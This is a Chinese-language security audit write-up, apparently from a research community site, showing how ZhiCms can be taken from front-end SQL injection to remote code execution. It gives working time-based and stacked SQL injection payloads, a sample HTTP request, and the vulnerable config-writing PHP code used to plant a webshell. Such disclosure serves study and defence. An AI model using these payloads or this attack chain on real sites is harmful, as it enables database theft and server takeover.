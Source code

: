 

# zhicms 从前台 SQL 注入到 RCE - 先知社区

zhicms 从前台 SQL 注入到 RCE

- - -

### 0x00 前言

**产品说明：**  
ZhiCms 是一款专业的值得买系统，程序支持国内值得买海淘值得买，程序内置淘点金、以及亿起发淘金链、多麦多金链等功能。支持国内商城海淘商城，程序 PHP+MYSQL 小巧方便，SEO 性强，前台模板制作简单  
**最新源码下载地址：**  
[https://www.zhicms.cc/d/zhicms.zip](https://www.zhicms.cc/d/zhicms.zip)  
**环境说明：**  
PHP7.1.9+MYSQL

### 0x01 软件目录结构

```bash
/app 控制器及模型目录
/data/cache 缓存
/data/config 数据库及其他配置
/public 前端静态文件目录
/upload 上传文件的存放目录
/ZhiCms 存放 zhicms 框架核心文件
```

### 0x02 开始审计

#### SQL 注入

zhicms 的控制器使用 ZhiCms/base/Controller.php#arg() 方法来获取传入的数据。

[![](assets/1708482534-befd593f70035e6e576529b897a9616a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219211424-cd76cc5c-cf28-1.png)

可以看到在 arg() 方法做了一些替换的操作，并且使用 htmlspecialchars 转义$\_POST/$\_GET 的数据，ENT\_QUOTES 会对单引号跟双引号做转义，这里要么找整形注入要么找找能否绕过。

[![](assets/1708482534-1cbf88ae942266dfd2ed4d62962f3da1.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219211809-536c5520-cf29-1.png)

[![](assets/1708482534-aeb6ee94684a3bbb5ac76a2644a6821a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219212113-c12b57d2-cf29-1.png)

在 app/index/controller/cheapscontroller.php#index() 方法发现使用 urldecode 来包裹 arg()，那么这些位置可以使用 url 编码来绕过 arg() 方法的安全处理。

[![](assets/1708482534-d9130f7bd88e1eec8789731424ae5d0b.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219213132-31fb6c12-cf2b-1.png)

发包调试。

```bash
GET /index.php?r=index/cheaps/index&key=test&XDEBUG_SESSION_START=16722 HTTP/1.1
Host: localhost
Cache-Control: max-age=0
sec-ch-ua: "Chromium";v="103", ".Not/A)Brand";v="99"
sec-ch-ua-mobile: ?0
sec-ch-ua-platform: "Windows"
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/103.0.5060.53 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9
Connection: close
```

下断点之后一直步入，直到 ZhiCms/base/db/MysqlPdoDriver.php#query() 方法，可以看到传入的 test 被拼接好了。

[![](assets/1708482534-c6be667a9efe3faa4432d2693c559a3a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219213754-15d1fc26-cf2c-1.png)

构造 payload 然后做两次 url 编码，测试触发 SQL 注入。  
payload：`test%' and (select * from (select if(ascii(substr(database(),1,1))>0,sleep(1),1))A)#`

[![](assets/1708482534-4a27468c3cdc1053ef2cf779502b13d1.gif)](https://xzfile.aliyuncs.com/media/upload/picture/20240219215000-c6b8b768-cf2d-1.gif)

在 ZhiCms/base/db/MysqlPdoDriver.php#\_bindParams() 方法，由于拼接好的 sql 语句直接传递给 prepare，这里也可以使用堆叠注入。  
payload：`test%';select sleep(1)#`

[![](assets/1708482534-8d92d6c425037a742e4214c99dbdfe86.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219215403-576bf32e-cf2e-1.png)

#### 文件写入 RCE

通过 SQL 注入我们可以获取到后台管理员的账户密码，也就是有后台管理员权限了。后台的功能点较多，我们可以从后台寻找 RCE 漏洞。

在 app/manage/controller/setcontroller.php#index() 找到可以写入文件 RCE。

```bash
public function index(){

        if(!IS_POST){
            $this->pagetext=array("基础设置","网站设置");
            include CONFIG_PATH . 'siteconfig.php';
            $this->ret=$Siteinfo;
            $this->display();
        }else{
         $sitename=$_POST['sitename'];
         $hosturl=$_POST['hosturl'];
         $logo=$_POST['logo'];
         $ewm=$_POST['ewm'];
         $pid=$_POST['pid'];
         $appkey=$_POST['appkey'];
         $secretKey=$_POST['secretKey'];
          $apiurl=$_POST['apiurl'];
          $code=$_POST['code'];
         $zhuan=$_POST['zhuan'];
        $download=$_POST['download'];

         $content="<?php

         \r\n\$Siteinfo=array(
              'sitename'=>'{$sitename}',
              'hosturl'=>'{$hosturl}',
              'logo'=>'{$logo}',
              'ewm'=>'{$ewm}',
              'pid'=>'{$pid}',
               'appkey'=>'{$appkey}',
                'secretKey'=>'{$secretKey}',
                'apiurl'=>'{$apiurl}',
                'code'=>'{$code}',
              'zhuan'=>'{$zhuan}',
              'download'=>'{$download}',

        );";
           $of = fopen(CONFIG_PATH . 'siteconfig.php', 'w');
              if ($of) {
                  fwrite($of, $content);
              }
              fclose($of);
              echo json_encode(array("info" => "设置成功", "status" => "y"));
        }

    }
```

构造请求写入一句话木马 getshell。

[![](assets/1708482534-df48ee09e29a89203c7919f07d3011c0.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219224045-dd3f3f32-cf34-1.png)

RCE。

[![](assets/1708482534-5197188db4788040f2ce1987df8c9aaf.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219224237-201789ae-cf35-1.png)

shell 文件在 data/config/siteconfig.php。

[![](assets/1708482534-b5cf52faca7a90459984dc81e98aa617.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240219224334-4269dcaa-cf35-1.png)

### 参考

PDO 场景下的 SQL 注入探究  
[https://xz.aliyun.com/t/3950?time\_\_1311=n4%2BxnD0DBDgGG%3DG8%2BGODlhje0%3Dd8eRhghbD&alichlgref=https%3A%2F%2Fcn.bing.com%2F#toc-4](https://xz.aliyun.com/t/3950?time__1311=n4%2BxnD0DBDgGG%3DG8%2BGODlhje0%3Dd8eRhghbD&alichlgref=https%3A%2F%2Fcn.bing.com%2F#toc-4)
